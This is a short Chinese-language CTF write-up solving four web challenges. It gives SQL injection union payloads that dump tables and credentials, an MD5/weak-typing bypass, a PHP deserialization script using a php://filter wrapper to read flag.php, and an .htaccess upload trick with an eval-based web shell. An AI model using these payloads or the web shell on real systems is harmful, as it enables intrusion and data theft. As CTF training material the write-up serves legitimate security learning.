

# 2024-2-12

## 1


首先尝试万能密码发现存在注入漏洞


使用`1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database();#`查询表名


再用`1' union select group_concat(column_name) from information_schema.columns where  table_name='I0ve1ysq1';#`获取列名


`1' union select 1,2,group_concat(id,username,password) from geekuser;#`然后直接查看各列找到flag

## 2


我们可以看见需要两个条件第一个就是md5碰撞，我们可以使用?id[]=1&gg[]=2来绕过md5无法处理数组所以都返回false，第二个我们让passwd=1234567a因为php弱类型比较如果开头是数字那么会将其截取到字母前面比较


传一下直接成功

## 3

打开网址后直接给了php代码

```php
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}

```

我们可以看见该php会对str参数进行反序列化，我们可以看见会根据op的值决定处理方式，但在比较时使用了强类型比较所以我们可以用数字型2来进行绕过，然后read调用file_get_contents函数进行读取，这里我们就可以使用php的filter伪协议读取我们想要的文件


我们使用脚本进行序列化

```php
<?php
highlight_file(__FILE__);
	class FileHandler {
        public $op = 2;
        public $filename = "php://filter/read=convert.base64-encode/resource=flag.php";
        public $content;
    }
    $a = new FileHandler();
        $b = serialize($a);
        echo($b);
?>

```


得到flagbase64编码，解码即可

## 4


是一个文件上传题，我们发现只能上传jpg漏洞，这样我们就可以利用图片马进行攻击，又因为是appache服务器所以我们可以上传htaccess文件来别的后缀名文件内容解析为php程序执行

`AddType application/x-httpd-php .mi`


这里要将文件类型改为image/jpeg，上传成功htaccess文件，但第一次上传php被发现不能直接上传php代码，根据PHP版本5.6.23将代码改为

`<script language="php">@eval($_POST['id']);</script>`

然后让id= phpinfo();得到



让id=var_dump(scandir('/'));得到


让id=var_dump(scandir('/flag'));得到flag


